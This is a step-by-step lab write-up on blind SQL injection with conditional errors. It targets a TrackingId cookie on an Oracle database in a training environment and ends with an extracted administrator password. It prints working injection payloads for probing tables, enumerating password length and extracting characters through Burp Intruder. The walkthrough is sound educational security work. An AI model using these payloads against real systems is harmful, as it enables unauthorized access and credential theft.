# Blind SQL Injection with Conditional Errors

**Author:** Dnyaneshwar Yadav

---

## Overview

This lab contains a **Blind SQL Injection** vulnerability in the **TrackingId cookie**.

The application uses this cookie value in a SQL query, but does not display the query results. However, the application behaves differently when SQL errors occur, allowing us to infer data through **conditional error-based injection**.

**Goal:** Extract the administrator password and login successfully.

---

## Lab Information

- **Difficulty Level:** Practitioner
- **Vulnerability Type:** Blind SQL Injection (Error-based)
- **Database Type:** Oracle
- **Target:** Administrator password extraction

---

## Solution

### Step 1: View lab description page

Open the lab and read the vulnerability description.



---

### Step 2: Intercept request and send to Repeater

Visit the shop homepage and open any category (e.g., Gifts).

Intercept the request using **Burp Suite Proxy** and send it to **Repeater** for manual testing.


---

### Step 3: Identify TrackingId cookie

In Repeater, inspect the request and locate the TrackingId cookie:
```
TrackingId=isGAnKIEZDILOzSY
```

This cookie is the primary attack point for SQL injection.


---

### Step 4: Test for SQL error with single quote

Add a single quote (`'`) at the end of the TrackingId value:
```
TrackingId=isGAnKIEZDILOzSY'
```

The application returns an **Internal Server Error**, confirming that the input breaks the SQL query.



---

### Step 5: Validate syntax with double quote

Close the quote by using double single quotes:
```
TrackingId=isGAnKIEZDILOzSY''
```

The error disappears and a normal response is returned, confirming the error is SQL syntax-related.



---

### Step 6: Confirm SQL execution

Test if SQL expressions are being executed:
```
'|| (SELECT '') ||'
```

This payload triggers an error, confirming SQL execution is happening.



---

### Step 7: Identify Oracle database using dual table

Use the Oracle-specific `dual` table:
```
'|| (SELECT '' FROM dual) ||'
```

No error is returned, confirming the backend database is **Oracle**.



---

### Step 8: Test with invalid table name

Use a deliberately invalid table name:
```
'|| (SELECT '' FROM not-a-real-table) ||'
```

An **Internal Server Error** is returned, confirming the application leaks SQL errors.


---

### Step 9: Verify users table exists

Check if the `users` table exists:
```
'|| (SELECT '' FROM users WHERE ROWNUM = 1) ||'
```

A normal response is returned, confirming the `users` table exists.



---

### Step 10: Test conditional error with true condition

Test a true condition (1=1):
```
'|| (SELECT CASE WHEN (1=1) 
THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```

An **Internal Server Error** is returned.



---

### Step 11: Test conditional error with false condition

Test a false condition (1=2):
```
'|| (SELECT CASE WHEN (1=2) 
THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```

A normal response is returned, confirming errors can be triggered conditionally.



---

### Step 12: Verify administrator user exists

Check if the administrator user exists:
```
'|| (SELECT CASE WHEN (1=1) 
THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator') ||'
```

An error is returned, confirming the administrator user exists.



---

### Step 13: Test password length enumeration payload

Start enumerating the password length:
```
'|| (SELECT CASE WHEN LENGTH(password) > 1 
THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator') ||'
```

Test sequentially with >2, >3, >4, etc.



---

### Step 14: Confirm password length

Continue testing until the error stops occurring.

**Password length confirmed:** 20 characters



---

### Step 15: Setup Burp Intruder for character extraction

Configure Burp Intruder to extract password characters:
```
'|| (SELECT CASE WHEN SUBSTR(password,1,1)='§a§' 
THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator') ||'
```

Set payload position on the character to be tested.



---

### Step 16: Run Intruder attack

Run the Intruder attack with payload list: `a-z` and `0-9`.

- **HTTP 500** → Correct character
- **HTTP 200** → Incorrect character



---

### Step 17: Identify correct character by status code

Look for responses with **500 status code** to identify the correct character.



---

### Step 18: Complete password extraction

Repeat the process for all 20 positions.

**Final extracted password:**
```
8aiz6g8ou7el6emwa7pg
```


---

### Step 19: Login as administrator

Use the extracted credentials to login:
```
Username: administrator
Password: 8aiz6g8ou7el6emwa7pg
```

Login is successful.



---

### Step 20: Lab solved confirmation

After successful login, the lab status changes to **Solved**.



---

## Result

Successfully exploited **Blind SQL Injection with Conditional Errors** to:

* Identify Oracle database
* Confirm users table existence
* Verify administrator user
* Determine password length (20 characters)
* Extract password character-by-character
* Login as administrator

---

## Screenshots Folder Structure
```text
screenshots/
├── 01-lab-description.png
├── 02-request-intercepted.png
├── 03-trackingid-cookie.png
├── 04-single-quote-error.png
├── 05-double-quote-normal.png
├── 06-sql-execution-error.png
├── 07-oracle-dual-success.png
├── 08-invalid-table-error.png
├── 09-users-table-exists.png
├── 10-true-condition-error.png
├── 11-false-condition-normal.png
├── 12-admin-user-exists.png
├── 13-length-testing.png
├── 14-length-confirmed.png
├── 15-intruder-setup.png
├── 16-intruder-running.png
├── 17-character-identified.png
├── 18-password-extracted.png
├── 19-admin-login.png
└── 20-lab-solved.png
```

---

## Disclaimer

This repository is for educational purposes only. The techniques demonstrated here should only be used in authorized environments such as security labs and CTF challenges.

---